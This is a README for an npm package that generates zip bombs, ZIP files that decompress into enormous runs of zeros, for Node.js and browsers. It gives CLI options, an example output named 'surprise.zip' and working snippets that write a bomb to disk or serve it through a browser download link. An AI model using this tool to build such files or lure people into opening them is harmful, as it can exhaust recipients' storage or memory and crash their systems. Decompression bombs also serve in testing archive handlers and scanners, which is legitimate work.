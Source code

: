 ## 💣 Zip bomb [![standard][standard-image]][standard-url] [![travis][travis-image]][travis-url] [![npm][npm-image]][npm-url]

[standard-image]: https://img.shields.io/badge/code%20style-standard-brightgreen.svg
[standard-url]: http://standardjs.com/
[travis-image]: https://img.shields.io/travis/harshjv/zip-bomb/master.svg
[travis-url]: https://travis-ci.org/harshjv/zip-bomb
[npm-image]: https://img.shields.io/npm/v/zip-bomb.svg
[npm-url]: https://npmjs.org/package/zip-bomb

[Zip bomb](https://en.wikipedia.org/wiki/Zip_bomb) for Browser and Node.js.

> [⚡️ Live demo here](https://harshjv.github.io/zip-bomb/demo/)

## Installation

    npm install zip-bomb

Checkout [API](#API) usage.


## Command line

    npm install -g zip-bomb


### Usage

    Usage: zip-bomb [options]

    Options:

      -h, --help                       output usage information
      -V, --version                    output the version number
      -b, --zero-buffer-size <number>  Zero buffer size
      -l, --buffer-level <number>      Buffer multiplier
      -z, --zip-level <number>         Level
      -o, --output <file>              Output file

    Example:

        zip-bomb -b 10485760 -l 10 -z 50 -o surprise.zip


## API

### `zipBomb.createBuffer(zeroBufferSize, bufferLevel, zipLevel)`

Creates ZIP file `Buffer`.

> returns `Promise`

#### Parameters

* `zeroBufferSize`
  * can be `Number`
  * creates buffer of 0s with provided size
* `bufferLevel`
  * can be `Number`
  * multiplies created buffer with zeros with provided buffer level
* `zipLevel`
  * creates zip `zeroBufferSize * bufferLevel` zeros of provided zip level


### `zipBomb.createDataURL(zeroBufferSize, bufferLevel, zipLevel)`

Creates `DataURL` (for use in browsers)

> returns `Promise`

#### Parameters

Same as `zipBomb.createDataURL(bufferMultiplier, level)`


## Usage

### In node.js

    const fs = require('fs')
    const zb = require('zip-bomb')

    const fileName = 'zipbomb.zip'

    zb.createBuffer(1024 * 1024 * 10, 10, 10)
      .then((buffer) => {
        fs.writeFile(fileName, buffer, (err) => {
          if (err) throw err

          console.log(`${fileName} is created`)
        })
      })

> **WARNING** `zipbomb.zip` file is evil!


### In Browser (with Browserify or webpack)

    const zb = require('zip-bomb')

    zb.createDataURL(1024 * 1024 * 10, 10, 10)
      .then((dataURL) => {
        const a = document.createElement('a')
        const linkText = document.createTextNode('Click here to download zip bomb')

        a.appendChild(linkText)
        a.href = dataURL
        document.body.appendChild(a)
      })
      .catch((e) => console.error(e))

> Embed bundled file into an HTML page and click on the link to download generated zip bomb!


## Test

    npm test

> `standard` only for now. More to come.


## License

MIT
